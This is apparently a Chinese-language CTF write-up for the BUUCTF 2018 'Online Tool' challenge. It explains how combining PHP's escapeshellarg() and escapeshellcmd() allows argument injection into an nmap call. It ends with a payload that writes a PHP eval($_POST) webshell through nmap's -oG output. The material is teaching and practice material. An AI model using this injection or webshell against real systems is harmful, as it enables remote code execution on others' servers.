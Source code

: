 # \[BUUCTF 2018]Online Tool

## \[BUUCTF 2018]Online Tool

## 考点

* Nmap使用
* escapeshellarg()+escapeshellcmd() 之殇

## wp

```php
<?php

if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $_SERVER['REMOTE_ADDR'] = $_SERVER['HTTP_X_FORWARDED_FOR'];
}

if(!isset($_GET['host'])) {
    highlight_file(__FILE__);
} else {
    $host = $_GET['host'];
    $host = escapeshellarg($host);
    $host = escapeshellcmd($host);
    $sandbox = md5("glzjin". $_SERVER['REMOTE_ADDR']);
    echo 'you are in sandbox '.$sandbox;
    @mkdir($sandbox);
    chdir($sandbox);
    echo system("nmap -T5 -sT -Pn --host-timeout 2 -F ".$host);
}
```

GET参数host，然后经过`escapeshellarg()`和`escapeshellcmd()`两个函数的处理，再进行命令拼接

> **`escapeshellarg()`** 将给字符串增加一个单引号并且能引用或者转码任何已经存在的单引号，这样以确保能够直接将一个字符串传入 shell 函数，并且还是确保安全的。对于用户输入的部分参数就应该使用这个函数。
>
> **`escapeshellcmd()`** 对字符串中可能会欺骗 shell 命令执行任意命令的字符进行转义。反斜线（\）会在以下字符之前插入： <mark style="color:red;">``&#;`|*?~<>^()[]{}$\``</mark>, <mark style="color:red;">`\x0A`</mark> 和 <mark style="color:red;">`\xFF`</mark>。 <mark style="color:red;">`'`</mark> <mark style="color:red;"></mark><mark style="color:red;">和</mark> <mark style="color:red;"></mark><mark style="color:red;">`"`</mark> <mark style="color:red;"></mark><mark style="color:red;">仅在不配对儿的时候被转义</mark>。 在 Windows 平台上，<mark style="color:red;">所有这些字符以及</mark> <mark style="color:red;"></mark><mark style="color:red;">`%`</mark> <mark style="color:red;"></mark><mark style="color:red;">和</mark> <mark style="color:red;"></mark><mark style="color:red;">`!`</mark> <mark style="color:red;"></mark><mark style="color:red;">字符都会被空格代替</mark>。

先使用`curl`命令作为例子，根据这两个函数的意思，如果传入`127.0.0.1'`，那经过`escapeshellarg()`处理之后就是`'127.0.0.1'\'''`，又经过`escapeshellcmd()`处理后是`'127.0.0.1'\\''\'`，此时执行的命令如下

```php
system("curl '127.0.0.1'\\''\'");
```

就相当于在shell中执行`curl 127.0.0.1\'`，IP地址的单引号可以忽略，中间两个反斜杠转义为一个反斜杠，两个单引号连在一起为空可忽略，最后反斜杠单引号转义为单引号，与前面的反斜杠拼接在一起。

如果传入的是`127.0.0.1' -X POST -d a=1`，那么经过转义之后就是`curl 127.0.0.1\ -X POST -d a=1'`

如果传入`'127.0.0.1'`，那经过`escapeshellarg()`处理之后就是`''\''127.0.0.1'\'''`，又经过`escapeshellcmd()`处理后是`''\\''127.0.0.1'\\'''`，此时执行的命令如下

```php
system("curl ''\\''127.0.0.1'\\'''");
```

就相当于在shell中执行`curl \127.0.0.1\\`，两个单引号连在一起为空可忽略，然后两个反斜杠转义为一个反斜杠，两个单引号连在一起为空可忽略，两个反斜杠用单引号包裹相当于两个反斜杠，最后两个单引号连在一起为空可忽略。

如果传入的是`'127.0.0.1 -X POST -d a=1'`，那么经过转义之后就是`curl \127.0.0.1 -X POST -d a=1\\`

把curl换成本题的命令，命令就是`nmap -T5 -sT -Pn --host-timeout 2 -F \127.0.0.1`` `<mark style="color:red;">`-X POST -d a=1\\`</mark>，红色部分就说明可以控制参数

本题的参数含义`-T5`是使用时间模板5(最快速度扫描)，`-sT`是使用TCP进行全连接扫描，和服务器建立完整的三次握手，`-Pn`跳过主机发现，视所有主机都在线，`--host-timeout 2`是设置超时时间，`-F`是快速扫描模式，比默认的扫描端口还少。而Nmap还有输出到文件的功能，这就是可以getshell的地方。

Nmap的保存功能主要有四种，`-oN`将标准输出直接写入指定的文件，`-oX`输出XML文件，`-oS`将所有的输出都改为大写，`-oG`输出便于通过bash或者perl处理的格式，非XML，`-oA`将扫描结果以标准格式、XML格式和Grep格式一次性输出。

最后能用的只要`-oG`，payload为`' <?php eval($_POST["a"]);?> -oG shell.php '`

处理之后的命令如下

```
nmap -T5 -sT -Pn --host-timeout 2 -F ''\\'' \<\?php eval\(\$_POST\["a"\]\)\;\?\> -oG shell.php '\\'''
```

相当于

```
nmap -T5 -sT -Pn --host-timeout 2 -F \ <?php eval($_POST[a]);?> -oG shell.php \\
```

最终nmap执行的命令为

```
nmap -T5 -sT -Pn --host-timeout 2 -F -oG shell.php \ <?php eval($_POST[a]);?> \\
```

如果最后一个单引号前不加空格，那写入的文件就变成`shell.php\\`，是无法解析成php的。

## 小结

1. [PHP escapeshellarg()+escapeshellcmd() 之殇](https://paper.seebug.org/164/)
2. 类似\[网鼎杯 2020 朱雀组]Nmap
